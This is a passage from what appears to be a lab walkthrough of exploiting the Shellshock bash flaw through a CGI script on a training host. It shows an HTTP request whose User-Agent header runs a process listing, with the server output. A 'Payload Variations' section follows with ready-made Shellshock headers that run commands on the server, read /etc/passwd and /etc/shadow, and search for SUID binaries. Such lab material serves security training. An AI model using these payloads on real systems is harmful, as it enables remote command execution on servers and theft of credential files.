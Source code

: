 **Response - Current user context:**
```
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

**Step 3.3: Process Enumeration**
```http
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local
User-Agent: () { :; }; echo; echo; /bin/bash -c 'ps -ef'
Accept: */*
```

**Response - Running processes:**
```
UID    PID  PPID  C STIME TTY      TIME CMD
root     1     0  0 06:21 ?    00:00:00 /usr/bin/python
root     7     1  0 06:21 ?    00:00:00 /bin/bash /root/startup.sh
daemon  18    17  0 06:21 ?    00:00:00 /opt/apache/bin/httpd -X
daemon  19    18  0 06:21 ?    00:00:00 /opt/apache/bin/httpd -X
daemon  20    18  0 06:21 ?    00:00:00 /opt/apache/bin/httpd -X
/usr/local/bash-4.3.0/bin/bash /opt/apache/htdocs/gettime.cgi
daemon  1384  1383  0 06:41 ?    00:00:00 ps -ef
```

---

## 💣 Payload Variations

### System Information Gathering
```bash
# Get system information
User-Agent: () { :; }; echo; echo; /bin/bash -c 'uname -a'

# List directory contents
User-Agent: () { :; }; echo; echo; /bin/bash -c 'ls -la /var/www/html'

# Check current user
User-Agent: () { :; }; echo; echo; /bin/bash -c 'whoami'

# View environment variables
User-Agent: () { :; }; echo; echo; /bin/bash -c 'env'
```

### File System Exploration
```bash
# Read sensitive files
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow'
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/hosts'

# Find SUID binaries
User-Agent: () { :; }; echo; echo; /bin/bash -c 'find / -perm -4000 2>/dev/null'
```
